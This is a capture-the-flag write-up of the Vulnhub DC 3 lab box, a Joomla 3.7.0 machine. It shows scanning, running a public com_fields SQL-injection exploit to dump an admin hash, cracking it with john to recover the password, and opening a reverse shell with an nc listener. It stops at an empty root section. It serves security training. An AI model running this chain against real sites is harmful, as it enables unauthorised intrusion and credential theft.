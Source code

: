 ```yaml
---
title: Vulnhub - DC 3
description: My writeup on DC 3 box.
categories:
 - vulnhub
tags: vulnhub joomla whatweb joomscan joomblah
---
```


![](https://i.imgur.com/wp2kece.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **DC 3**  |
| Series :      | **DC**         |
| Difficulty :  | **Easy/Medium**             |   
| Release Date :| **25 Apr 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [DCAU](https://twitter.com/@DCAU7){:target="_blank"}     |
| Download :    | [DC 3](https://www.vulnhub.com/entry/dc-32,312/){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello all, let's continue the DC series. Let's pwn it!

## PoC

![](https://i.imgur.com/suy08NX.png)

## Target IP

Always first step is to find target IP address, i prefer to use the `arp-scan` utility. Then we'll save the IP address in a variable.

```
$ arp-scan --localnet | grep "PCS Systemtechnik GmbH"
192.168.1.18	08:00:27:38:8b:a0	PCS Systemtechnik GmbH
$ ip=192.168.1.18
 ```

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-20 17:29 EET
Nmap scan report for dc-3.zte.com.cn (192.168.1.18)
Host is up (0.00044s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:91:ED:93 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.34 seconds

$ nmap -p 80 -sC -sV -oN nmap/dc3.vulnhub $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-20 17:29 EET
Nmap scan report for dc-3.zte.com.cn (192.168.1.18)
Host is up (0.00056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
```

Once we visit the website we can see that is running joomla. We can double-check that using `whatweb`.

```
$ whatweb http://$ip/ | tee scans/whatweb.txt
http://192.168.1.18/ [200 OK] Apache[2.4.18], Bootstrap, Cookies[460ada11b31d3c5e5ca6e58fd5d3de27], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], HttpOnly[460ada11b31d3c5e5ca6e58fd5d3de27], IP[192.168.1.18], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PasswordField[password], Script[application/json], Title[Home]
```

Googline around for a joomla vulnerability scanner, i found out this [joomscan](https://github.com/OWASP/joomscan){:target="_blank"} that is pre-installed on kali. Let's fire it up!

```
$ joomscan --url http://$ip/ | tee scans/joomscan.txt

Processing http://192.168.1.18/ ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

...data...
```

A really important thing that tell us is the version `3.7.0`! Let's search for possible exploits.

```
$ searchsploit joomla 3.7.0
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                     | php/webapps/42033.txt
```

Perfect, this exploit is about `sqlmap` i googled around and i found a [python one](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py){:target="_blank"} that automates this. Let's download it and run it.

```
$ wget -q https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah.py http://$ip/

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: d8uea_users
  -  Found table: users
  -  Extracting users from d8uea_users
 [$] Found user ['629', 'admin', 'admin', 'freddy@norealaddress.net', '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu', '', '']
```

Perfect! We have admin's hash. I used [tunnelsup](https://www.tunnelsup.com/hash-analyzer/){:target="_blank"} to find the hash type.

![](https://i.imgur.com/kD5t8Dp.png)

Let's fire up our friend john.

```
$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy           (?)
```

## Shell as www-data

Now we can login into admin panel `/administrator` as `admin:snoopy`. Follow my steps for a reverse shell:

![](https://i.imgur.com/sZ5cbmn.png)

![](https://i.imgur.com/TDviMrm.png)

![](https://i.imgur.com/Z3cvhSg.png)

![](https://i.imgur.com/4roRKe1.png)

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-3:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as root
